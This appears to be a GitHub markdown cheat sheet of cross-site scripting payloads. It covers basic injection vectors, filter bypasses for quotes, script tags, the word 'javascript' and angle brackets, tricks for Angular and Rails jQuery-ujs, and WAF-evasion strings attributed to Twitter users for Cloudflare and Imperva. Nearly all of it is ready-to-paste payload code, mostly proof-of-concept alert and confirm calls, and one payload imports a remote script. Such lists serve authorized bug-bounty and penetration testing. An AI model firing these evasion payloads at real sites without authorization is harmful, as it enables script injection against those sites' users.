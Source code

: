 # Cross-site scripting (XSS)

>Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS attacks enable attackers to inject client-side scripts into web pages viewed by other users.

## Summary 
- [Cross-site scripting (XSS)](#cross-site-scripting-xss)
  - [Summary](#summary)
    - [Basic XSS](#basic-xss)
    - [Useful Event Handlers](#useful-event-handlers)
    - [DOM-based XSS Filter Bypass](#dom-based-xss-filter-bypass)
    - [Bootstrap XSS](#bootstrap-xss)
    - [XSS from portswigger Labs](#xss-from-portswigger-labs)
    - [SVG XSS](#svg-xss)
    - [XSS in Rails apps that uses jQuery-ujs](#xss-in-rails-apps-that-uses-jquery-ujs)
    - [Angular-js XSS](#angular-js-xss)
    - [XSS in canonical link tag](#xss-in-canonical-link-tag)
    - [XSS in URL input](#xss-in-url-input)
    - [Bypass ' filter](#bypass--filter)
    - [Bypass `<script>` filter](#bypass-script-filter)
    - [Bypass 'javascript' filter](#bypass-javascript-filter)
      - [HTML encoding](#html-encoding)
    - [Bypass '>' filter](#bypass--filter-1)
  - [WAF Bypass](#waf-bypass)
    - [Cloudflare bypass](#cloudflare-bypass)
    - [Imperva bypass](#imperva-bypass)
  - [XSS Writeups :](#xss-writeups)
  - [Other Awesome XSS :fire:](#other-awesome-xss-fire)
  - [References](#references)
### Basic XSS 

```bash
<script>alert('XSS')</script>
```
```bash
<img src=x onerror=alert('XSS')>
```
```bash
javascript:alert('xss')
```
```bash
<svg onload=alert('XSS')>
```

### Useful Event Handlers
`onmouseover` `onclick` `onerror` `onfocus` `onload` `onstart` `onfinish` `onresize`

### DOM-based XSS Filter Bypass
by [@rodoassis](https://twitter.com/rodoassis/status/1257638920499625985)

```bash
Javascript://%E2%80%A9alert('xss')
```

### Bootstrap XSS
by [@rodoassis](https://twitter.com/rodoassis/status/1257638920499625985)

```bash
<Brute Data-Spy=scroll 
Data-Target='<Svg OnLoad=(confirm)('xss')>'>
```
### XSS from portswigger Labs

```bash
"><body onresize=alert('XSS')>
```
```bash
<xss id=x onfocus=alert('XSS') tabindex=1>#x
```

### SVG XSS
```bash
<svg/onload=alert('XSS')>
```
```bash
"><svg><discard onbegin=alert(1)>
```
```bash
<svg><a><animate+attributeName=href+values=javascript:alert('XSS') /><text+x=20+y=20>Click me</text></a>
```
### XSS in Rails apps that uses jQuery-ujs
by [@RenwaX23](https://twitter.com/RenwaX23/status/1260342626789863428)
```bash
<a data-remote="true" data-disable-with="<script>alert(23)</script>" href="#" >Click Me</a>

# May 12, 2020
```
### Angular-js XSS 

```bash
[[constructor.constructor('alert('XSS')')()]]
```
### XSS in canonical link tag
**Only in Chrome**

the victim should press

    On Windows: ALT+SHIFT+X
    On MacOS: CTRL+ALT+X
    On Linux: Alt+X

```bash
target.com/?'accesskey='x'onclick='alert('XSS')
```
### XSS in URL input

```bash
http://foo?&apos;-alert(1)-&apos;
```

### Bypass ' filter

>if `'alert(1)'` = `&apos;alert(1)&apos;` try :

```bash
'-alert(1)-'
```

### Bypass `<script>` filter

>nesting them inside other tags

```bash
<scr<script>ipt>document.write('XSS')</scr<script>ipt>
```
 
### Bypass 'javascript' filter

#### HTML encoding

```bash
&#106;avascript:alert('XSS')
```

### Bypass '>' filter

```bash
<svg onload="alert('XSS')" <="" svg=""
```
```bash
<svg/onload=confirm('XSS')//
```
```bash
<svg onload=alert('XSS')//
```


## WAF Bypass

### Cloudflare bypass
by [@bohdansec](https://twitter.com/bohdansec/status/1252643451792998402)
```bash
<svg/OnLoad="`${prompt``}`">
# Apr 21, 2020
```
by [@sratarun](https://twitter.com/sratarun/status/1253020991732584448)
```bash
%3Cx/Onpointerrawupdate=confirm%26lpar;)%3Exxxxx
# Apr 22, 2020
```
by [@netspooky](https://twitter.com/netspooky/status/1253462252524638208)
```bash
<uu src=@'@' onbigclick=import('//0a"&nbsp;"0a0a?0a/')>mou%09se<|/uu>:}
# Apr 24, 2020
```

by [@spyerror](https://twitter.com/spyerror/status/1250032421753495555)
```bash
≋ "><!'/*"*\'/*\"/*--></Script><Image SrcSet=K */; OnError=confirm(document.domain) //># ≋

# Apr 14, 2020
```

### Imperva bypass
by [@sratarun](https://twitter.com/sratarun/status/1250792816713719808)

```bash
tarun"><x/onafterscriptexecute=confirm%26lpar;)//
# Apr 16, 2020
```

by [@Tismayil1](https://twitter.com/Tismayil1/status/1255275250885038080)

```bash
<sVg OnPointerEnter="location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//</div">
# Apr 29, 2020
```

by [@spyerror](https://twitter.com/spyerror/status/1248380806080299008)

```bash
<details/open/ontoggle="self['wind'%2b'ow']['one'%2b'rror']=self['wind'%2b'ow']['ale'%2b'rt'];throw/**/self['doc'%2b'ument']['domain'];">
# Apr 9, 2020
```
## XSS Writeups : 
[$20000 Facebook DOM XSS](https://vinothkumar.me/20000-facebook-dom-xss/)

## Other Awesome XSS :fire: 

[Cross-site scripting (XSS) cheat sheet by Portswigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## References
* [@avanish46](https://twitter.com/avanish46/status/1255159088708833280)
* [@vishnugadupudi](https://twitter.com/vishnugadupudi/status/1255163776539623434)
* [@sratarun](https://twitter.com/sratarun/status/1255442758464126976)
* [XSS Filter Evasion](https://www.netsparker.com/blog/web-security/xss-filter-evasion/)
* [Portswigger Cross-site scripting Labs](https://portswigger.net/web-security/all-labs)
* [Stored XSS via AngularJS Injection](https://hackerone.com/reports/141463)
* [wikipedia](https://en.wikipedia.org/wiki/Cross-site_scripting)
